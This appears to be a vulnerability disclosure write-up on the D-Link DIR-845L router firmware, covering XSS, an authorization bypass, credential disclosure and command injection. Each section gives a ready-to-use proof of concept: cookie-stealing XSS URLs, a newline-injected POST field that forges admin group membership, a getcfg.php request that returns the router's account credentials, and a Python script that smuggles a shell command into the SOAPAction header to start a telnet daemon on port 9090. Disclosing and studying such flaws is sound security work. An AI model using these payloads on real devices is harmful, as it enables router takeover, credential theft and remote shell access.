





# DIR-845L Vulnerabilities

## Summary

**Vendor** : D-Link

**Product** : DIR-845L Router

**Firmware Link** : You can download firmware at ([https://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=146&amp;model=DIR-845L](https://www.mydlink.co.kr/2013/beta_board/product_detail.php?no=146&model=DIR-845L))


### Vulnerabilities Summary

+ **XSS**
+ **Permission bypass**
+ **Information disclosure**
+ **Command injection**

### XSS

+ /htdocs/webinc/js/bsc_sms_inbox.php line: 17
  + var get_Treturn = '`<?if($_GET["Treturn"]=="") echo "0"; else echo $_GET["Treturn"];?>';`
+ The parameter **$_GET["Treturn"]** has no filter.So the poc:
  + http://192.168.0.1/bsc_sms_inbox.php?Treturn=1';alert(document.cookie)
+ /htdocs/webinc/js/info.php line:27 -30 same problem poc:
  + http://192.168.0.1/info.php?RESULT=",msgArray);alert(document.cookie);//

### Permission bypass

+ /htdocs/web/getcfg.php line:83-94
+ ```php
  function is_power_user()
  {
  	if($_GLOBALS["AUTHORIZED_GROUP"] == "")
  	{
  		return 0;
  	}
  	if($_GLOBALS["AUTHORIZED_GROUP"] < 0)
  	{
  		return 0;
  	}
  	return 1;
  }
  ```
+ We can see the `$_GLOBALS["AUTHORIZED_GROUP"]` need to be greater than 0 and not a null.

  Phpcgi is a symbolic link to cgibin. Phpcgi is responsible for processing requests to .php, .asp and .txt pagesIt can be 	through URL, HTTP head or POST request sent by body data analysis.The phpcgi will create a long string, and the string will be treated as a series of key value pairs, and are used in `$_GET, $_POST and $_SERVER` dictionary and PHP script variable.Nevertheless, if a request is crafted in a proper way, an attacker can easily bypass authorization.

  Each of the key values pairs is encoded in the following form: _TYPE_KEY = VALUE, where TYPE can be GET, POST, or SERVER. Next, the key value pairs are connected using the branch character '\n'. In this way, we can build a packet by itself to bypass some permission validation.Such like this:

`	xxx=%0a_POST_AUTHORIZED_GROUP%3d1`

### Information disclosure

+ /htdocs/web/getcfg.php line:94-147/htdocs/web/web/web.php line：94-147
  ```php
  if ($_POST["CACHE"] == "true")
  {
  	echo dump(1, "/runtime/session/".$SESSION_UID."/postxml");
  }
  else
  {
  	if(is_power_user() == 1)
  	{
  		/* cut_count() will return 0 when no or only one token. */
  		$SERVICE_COUNT = cut_count($_POST["SERVICES"], ",");
  		TRACE_debug("GETCFG: got ".$SERVICE_COUNT." service(s): ".$_POST["SERVICES"]);
  		$SERVICE_INDEX = 0;
  		while ($SERVICE_INDEX < $SERVICE_COUNT)
  		{
  			$GETCFG_SVC = cut($_POST["SERVICES"], $SERVICE_INDEX, ",");
  			TRACE_debug("GETCFG: serivce[".$SERVICE_INDEX."] = ".$GETCFG_SVC);
  			if ($GETCFG_SVC!="")
  			{
  				$file = "/htdocs/webinc/getcfg/".$GETCFG_SVC.".xml.php";
  				/* GETCFG_SVC will be passed to the child process. */
  				if (isfile($file)=="1")
  				{
  					if(get("", "/runtime/device/sessions_privatekey")==1)
  					{
  						AES_Encrypt_DBnode($GETCFG_SVC, "Encrypt");
  						dophp("load", $file);
  						AES_Encrypt_DBnode($GETCFG_SVC, "Decrypt");
  					}
  					else
  					{	dophp("load", $file);}
  				}
  			}
  			$SERVICE_INDEX++;
  		}
  	}
  	else
  	{
  		/* not a power user, return error message */
  		echo "\t<result>FAILED</result>\n";
  		echo "\t<message>Not authorized</message>\n";
  	}
  }
  ```
+ We can see `dophp("load", $file)`, the function like a `include()` .
+ The variable `$file`  is made up of `$GETCFG_SVC`, then `$GETCFG_SVC` comes from `$_POST["SERVICES"]`, there is also no filter,so we can control the variable `$file` , and the permission validation is_power_user() can be bypassed by last trick. In this way,we can include any other php scripts to get some important informations,such like DEVICE.ACCOUNT.xml.php, it returns a username and password to a router,then we can login in the router.
+ poc
  + http://192.168.0.1/getcfg.php?a=%0a_POST_SERVICES%3DDEVICE.ACCOUNT%0aAUTHORIZED_GROUP%3D1
  + response(password is empty)
  + 

### Command injection

+ vlun in hnap_main()func
  + v0 = strrchr("http://purenetworks.com/HNAP1/GetDeviceSettings", 47);
  + Can be noticed, however, STRSTR used in string check, which suggests that the SOAPAction header just includes the http://purenetworks.com/HNAP1/GetDeviceSettings string, can through the inspection, to bypass the authentication.
    So, if SOAPAction header contains the string http://purenetworks.com/HNAP1/GetDeviceSettings, The code resolves the name of the Action (such as GetDeviceSettings) from the request header and removes the double quotation marks at the end of the string
+ also could cause CSRF but command injection is critical
+ poc
+ ```python
  import socket
  import struct

  buf = "POST /HNAP1/ HTTP/1.0\r\nHOST: 192.168.0.1\r\nUser-Agent: test\r\nContent-Length: 1\r\nSOAPAction:http://purenetworks.com/HNAP1/GetDeviceSettings/" + ';echo "success" > mytest.php;telnetd -p 9090;test\r\n' + "1\r\n\r\n"

  print "[+] sending buffer size", len(buf)
  s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
  s.connect(("192.168.0.1", 80))
  s.send(buf)
  ```
+ 
